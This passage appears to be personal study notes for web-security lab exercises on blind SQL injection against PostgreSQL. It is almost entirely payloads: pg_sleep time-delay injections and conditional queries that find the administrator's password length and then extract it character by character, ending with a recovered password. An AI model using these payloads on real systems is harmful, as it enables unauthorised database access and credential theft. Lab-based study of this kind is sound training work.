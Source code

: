     ```sql
    v1.1:   ' || pg_sleep(5) || '
    v1.2:   ' || pg_sleep(5)--+
    v1.3:   ' || (SELECT pg_sleep(5)) || '

    v2:     '%3b+SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END--+
    ```

14. #### **Blind SQL injection with time delays and information retrieval**

    > 📝 **Note:**
    <mark>None of the previous techniques works because
    "the application now catches database errors and handles them gracefully.  
    Triggering a database error when the injected SQL query is executed
    no longer causes any difference in the application's response".</mark>

    ```sql
    '%3b (SELECT pg_sleep(5))--+

    '%3b+(SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users)--+
    '%3b+(SELECT CASE WHEN (1=0) THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users)--+

    '%3b+(SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--+

    '%3b+(SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users WHERE username='administrator' AND length(password)>10)--+
    ...
    '%3b+(SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users WHERE username='administrator' AND length(password)=20)--+


    '%3b+(SELECT CASE WHEN (SUBSTR(password,1,1)='a') THEN pg_sleep(2) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--+
    ...
    '%3b+(SELECT CASE WHEN (SUBSTR(password,1,1)='b') THEN pg_sleep(2) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--+

    ...

    '%3b+(SELECT CASE WHEN (SUBSTR(password,1,1)='a') THEN pg_sleep(2) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--+
    ...
    '%3b+(SELECT CASE WHEN (SUBSTR(password,20,1)='d') THEN pg_sleep(2) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--+

    be4o117s8qn0wuchy41d
    ```

15. #### **Blind SQL injection with out-of-band interaction**

    ```plaintext
    PENDING UNTIL I GET THE BURP SUITE PRO VERSION
    ```

16. #### **Blind SQL injection with out-of-band data exfiltration**

    ```plaintext
    PENDING UNTIL I GET THE BURP SUITE PRO VERSION
    ```
